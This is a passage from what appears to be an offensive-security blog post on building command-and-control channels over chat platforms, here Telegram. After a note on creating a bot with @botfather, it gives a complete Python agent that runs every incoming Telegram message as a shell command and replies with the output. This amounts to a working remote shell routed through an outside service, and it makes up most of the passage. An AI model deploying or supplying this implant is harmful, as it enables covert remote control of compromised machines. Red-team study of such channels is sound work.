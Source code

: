 This scenario is not unlike to the one used for Discord. In this scenario we also need to create a bot and use its API key in the code.

### Prerequisites
To create a bot in Telegram, We need use @botfather:
![botfather](/assets/img/posts/2025-02-23-c2-all-the-things/telegram-1.png)

### Agent
```python
import telebot
import subprocess
API_KEY = "REDACTED_API_KEY"
bot = telebot.TeleBot(API_KEY)
def execute_system_command(cmd):
    max_message_length = 2048
    output = subprocess.getstatusoutput(cmd)
    if len(output[1]) > max_message_length:
        return str(output[1][:max_message_length])
    return str(output[1])
@bot.message_handler()
def handle_any_command(message):
    if message.text.startswith("/start"):
        return
    response = execute_system_command(message.text)
    bot.reply_to(message, response)
```
